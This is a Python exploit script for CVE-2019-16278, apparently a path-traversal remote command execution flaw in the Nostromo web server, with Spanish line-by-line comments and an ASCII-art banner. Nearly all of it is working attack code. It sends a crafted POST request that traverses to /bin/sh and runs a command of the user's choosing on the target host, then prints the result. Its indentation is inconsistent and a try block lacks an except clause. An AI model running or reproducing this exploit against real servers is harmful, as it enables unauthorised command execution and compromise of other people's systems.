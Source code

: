 ```python
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
	# Define una respuesta vacía
    response = ""
    try:
        while True:
			# Defina 1024 bytes como la cantidad de bytes recibidos por el socket.
			# Nota: Para que coincida mejor con las realidades del hardware y la red, el valor de bufsize debe ser una potencia relativamente pequeña de 2, por ejemplo, 4096. En este caso es 2 ^ 10 = 1024
            connection = soc.recv(1024)
			# Si no hay conexión, rompe (termina)
            if len(connection) == 0:
                break
			# Si hay una conexión, agréguela a la variable de response
            response += connection
    # Si no recibe una conexión, pase (continúe)
	except:
        pass
	# Devuelve la respuesta
    return response

def cve(target, port, cmd):
	# Define el socket
    soc = socket.socket()
	# Se conecta a la IP y al PUERTO de destino
    soc.connect((target, int(port)))
	# Define el payload
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
	# Envía el payload a la IP y al PUERTO de destino
    soc.send(payload)
	# Recibe una conexión
    receive = connect(soc)
	# Imprime el valor recibido
    print(receive)

if __name__ == "__main__":

	# Imprime el banner art
    print(art)

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]
		
		# Intenta ejecutar estos 3 argumentos (Ejemplo: 10.10.10.165 80 id)
        cve(target, port, cmd)
```
